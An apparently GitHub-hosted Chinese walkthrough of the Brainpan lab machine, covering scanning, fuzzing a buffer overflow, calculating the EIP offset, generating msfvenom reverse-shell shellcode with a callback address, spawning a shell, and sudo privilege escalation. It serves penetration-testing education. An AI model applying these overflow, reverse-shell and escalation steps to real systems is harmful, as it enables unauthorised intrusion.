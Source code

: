 # brainpan

## brainpan渗透测试

[参考链接1](https://blog.csdn.net/qq_34801745/article/details/103949489)

[参考链接2](https://www.cnblogs.com/darklee/p/14466851.html)

[参考链接3](https://bbs.pediy.com/thread-255058.htm#msg_header_h3_5)

- 首先扫描靶机位置以及开放的端口

![image-20210706141719309](http://cdn.mxrblog.cn/image-20210706141719309.png)

- 可以看到靶机开启了9999和10000端口，其中10000端口开启了http服务，访问靶机的访问靶机的10000号端口服务

![image-20210706141902068](http://cdn.mxrblog.cn/image-20210706141902068.png)

- 没有什么有价值的线索， 扫描一下http服务的目录（扫描目录这个过程出现了一点小波折，总之把靶机重新启动一下就好了）

![image-20210706142317846](http://cdn.mxrblog.cn/image-20210706142317846.png)

- 返现bin目录下有东西，我们访问一下，发现可执行文件

![image-20210706143249570](http://cdn.mxrblog.cn/image-20210706143249570.png)

- 下载brainpan.exe到攻击机器

![image-20210706143436955](http://cdn.mxrblog.cn/image-20210706143436955.png)

- 是windows可执行文件，移至windows环境中，使用Immunity Debugger打开，然后运行

![image-20210707035547856](http://cdn.mxrblog.cn/image-20210707035547856.png)

- 在win10上开启的是9999端口，使用fuzz脚本进行模糊测试
- 在网上下载fuzz脚本进行下载,下载地址:

```
git clone https://github.com/jessekurrus/brainpan
```

- 通过看代码，可以知道brainfuzzer.py的内容是发送初始值为100的A，每次增加100个，直至程序崩溃

![image-20210707041122867](http://cdn.mxrblog.cn/image-20210707041122867.png)



- Executing brainfuzzer.py scrtpt, It wa found that a crash occurred at 700 A

![image-20210707035932038](http://cdn.mxrblog.cn/image-20210707035932038.png)

- 用msf生成1000个有规律的字符序列

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1000
```

![image-20210707053219397](http://cdn.mxrblog.cn/image-20210707053219397.png)

- 修改brainpan1.py, 将里面的序列替换成我们的

![image-20210707041454618](http://cdn.mxrblog.cn/image-20210707041454618.png)

- 重启Immunity Debugger上的brainpan.exe (Ctrl+F2), F9执行， 再在攻击机器上运行brainpan1.py

![image-20210707041835761](http://cdn.mxrblog.cn/image-20210707041835761.png)



- 可以发现此时的EIP地址是35724134

![image-20210707042149055](http://cdn.mxrblog.cn/image-20210707042149055.png)

- 使用mfs计算EIP的偏移量

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 35724134
```

- 为524

![image-20210707042342854](http://cdn.mxrblog.cn/image-20210707042342854.png)

- 修改brainpan2.py代码

![image-20210707053912035](http://cdn.mxrblog.cn/image-20210707053912035.png)

- 在攻击机器上执行brainpan2.py, 我们能发现EIP的地址已经是42424242（BBBB的16进制）， ESP的起始地址是005FF910

![image-20210707053948699](http://cdn.mxrblog.cn/image-20210707053948699.png)

- 寻找跳板 jmp esp ，在Immunity Debugger中 Ctrl+F4搜索 jmp esp, 得到地址为311712F3

![image-20210707074011842](http://cdn.mxrblog.cn/image-20210707074011842.png)

- 使用msfvenom创建我的反向shell有效shellcode
  - -p表示加载模块，-f python表示格式化为python代码，-b为坏字符

```
msfvenom -p linux/x86/shell_reverse_tcp -b "\x00\x0a\x0d" LHOST=192.168.1.8 LPORT=666 -f python
```

![image-20210707080646846](http://cdn.mxrblog.cn/image-20210707080646846.png)

- 修改brainpan4.py

![image-20210707080622710](http://cdn.mxrblog.cn/image-20210707080622710.png)

- 监听本地666号端口

![image-20210707080807444](http://cdn.mxrblog.cn/image-20210707080807444.png)

- 执行brainpan4.py

```
python brainpan4.py 192.168.1.6 9999   //注意，这次的地址不是win10的了，而是靶机的地址
```

![image-20210707083510729](http://cdn.mxrblog.cn/image-20210707083510729.png)

- 设置交互式shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

![image-20210707085429547](http://cdn.mxrblog.cn/image-20210707085429547.png)

- 开始提权，看看有什么是现用户能使用的超级用户权力，使用sudo -l

![image-20210707083641954](http://cdn.mxrblog.cn/image-20210707083641954.png)

- 执行一下，发现命令还需要有三个参数，我们选择第三个

![image-20210707084110484](http://cdn.mxrblog.cn/image-20210707084110484.png)

```
sudo /home/anansi/bin/anansi_util manual cat
```

![image-20210707085613225](http://cdn.mxrblog.cn/image-20210707085613225.png)

![image-20210707085713346](http://cdn.mxrblog.cn/image-20210707085713346.png)



